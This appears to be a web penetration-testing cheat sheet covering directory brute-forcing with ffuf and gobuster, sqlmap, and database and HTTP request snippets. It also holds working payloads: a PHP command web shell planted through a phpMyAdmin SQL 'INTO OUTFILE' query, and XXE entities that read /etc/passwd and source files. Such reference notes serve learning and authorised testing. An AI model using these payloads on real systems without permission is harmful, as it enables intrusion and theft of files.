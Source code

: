 # Web

- [BruteForce](#bruteforce)
- [PhpMyAdmin](#phpmyadmin)
- [XML external entity (XXE)](#xml-external-entity-xxe)
- [Mysql](#mysql)
- [SQL Injection](#sql-injection)
- [Request](#request)

## BruteForce
### ffuf
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/FUZZ'
```
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://FUZZ.url/ -H 'Host: FUZZ.host'
```

### Gobuster
```
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```

### Dibuster
```
dirbuster
```

### Zap
```
owasp-zap
```

## PhpMyAdmin
### Quick Shellcode
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```

## XML external entity (XXE)
### Read File
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<foo>Hello &file;</foo>
```
### Get Link
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<foo>Hello &file;</foo>
```

## MySql
### Connect to mysql
```
mysql -h localhost -u myname -p
```
### Show Info
```
SHOW DATABASES;
use db_name
SHOW TABLES;
select * from table_name
```
### Open SQLite3
```
sqlite3 database.sqlite3
```
or open in vs code

## SQL Injection
```
sqlmap -u url --batch
```

## Request
### Curl
```
curl 'http://example.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=login&password=pass'
```

### Python (requests)
```python
import requests

s = requests.session()
s.proxies = {
  "http": "localhost:8080",
  "https": "localhost:8080",
}

r = s.get('http://example.com')
print(r.text)
r = s.post('http://example.com/submit',
    headers={
        'Content-type': 'raw',
    },
    data={'user': 'guest'},
    # auth=('username', 'password')
)
print(r.status_code, r.url)
```
